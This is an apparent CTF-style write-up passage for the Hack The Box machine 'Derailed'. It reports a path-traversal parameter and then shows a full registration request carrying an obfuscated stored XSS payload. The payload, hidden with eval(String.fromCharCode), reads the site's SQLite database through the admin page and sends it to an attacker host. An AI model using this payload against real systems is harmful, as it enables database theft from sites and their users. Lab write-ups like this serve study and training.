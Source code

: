 it's eval(String.fromCharCode()) :)


Finally after a lot of issues i was able to get administration page html source

and i found a possible xss couse the value point on a particular file .log


`<input type="text" class="form-control" name="report_log" value="report_12_01_2023.log" hidden>`

path : `http://deriled.htb:3000/administration/reports/report_log=../../../../../../../../var/www/rails-app/db/development.sqlite3`




default database is  database: db/development.sqlite3


## Trying LFI


```http
POST /register HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 1475
Origin: http://derailed.htb:3000
Connection: close
Cookie: _simple_rails_session=Gn9HpOqcRT%2B1pxiY7664ombe2%2FXvp61WA%2FtdBsk4gZUu9ANVZzRyrexj1mrnh2Mly5TKMbxhi4wB4CgBKtKZyMsnccMN1hChkHRgfNRzABML0iF52TXvn1%2BaMpMdEvAS77qOsA0Zfx79viehNMsXh8d3GHs6g33lpTH%2FaVNTmYKN3Szet1BgCcc6ioLb%2FsYCFntNDF1dCVg49Pbq9PaAM82T202GVbPvbzbmADIV7VGZarFAMatIpuhgjzsyV9STeQV9c8VtYt5z7%2BghoBKkkVDZ86vCFGT83vwzpuA%3D--7MXmuIiaCemf3E3c--Cdt9GwbsTjuguJC9MXtw7g%3D%3D
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

authenticity_token=IJ-T1VLMmlYH84yBg8GfaZzH2v7Vu_ZIucsC6v3T4MwOSrDbgFcVxU1pr3ow0_XPOzZRaWAD8WxG5ZSNYh2U9Q&user%5Busername%5D=c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img+src='http://10.10.14.93/c0derpwner'+onerror="eval(String.fromCharCode(118,97,114,32,117,114,108,32,61,32,34,104,116,116,112,58,47,47,100,101,114,97,105,108,101,100,46,104,116,98,58,51,48,48,48,47,97,100,109,105,110,105,115,116,97,116,105,111,110,47,118,97,114,47,119,119,119,47,114,97,105,108,115,45,97,112,112,47,100,98,47,100,101,118,101,108,111,112,109,101,110,116,46,115,113,108,105,116,101,51,34,59,10,118,97,114,32,99,111,100,101,114,32,61,32,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,57,51,47,104,111,111,107,34,59,10,118,97,114,32,120,104,114,32,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,120,104,114,46,111,110,114,101,97,100,121,115,116,97,116,101,99,104,97,110,103,101,32,61,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,105,102,32,40,120,104,114,46,114,101,97,100,121,83,116,97,116,101,32,61,61,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,46,68,79,78,69,41,32,123,10,32,32,32,32,32,32,32,32,102,101,116,99,104,40,99,111,100,101,114,32,43,32,34,63,34,32,43,32,101,110,99,111,100,101,85,82,73,40,98,116,111,97,40,120,104,114,46,114,101,115,112,111,110,115,101,84,101,120,116,41,41,41,10,32,32,32,32,125,10,125,10,120,104,114,46,111,112,101,110,40,39,71,69,84,39,44,32,117,114,108,44,32,116,114,117,101,41,59,10,120,104,114,46,115,101,110,100,40,110,117,108,108,41,59))">&user%5Bpassword%5D=celly&user%5Bpassword_confirmation%5D=celly
```
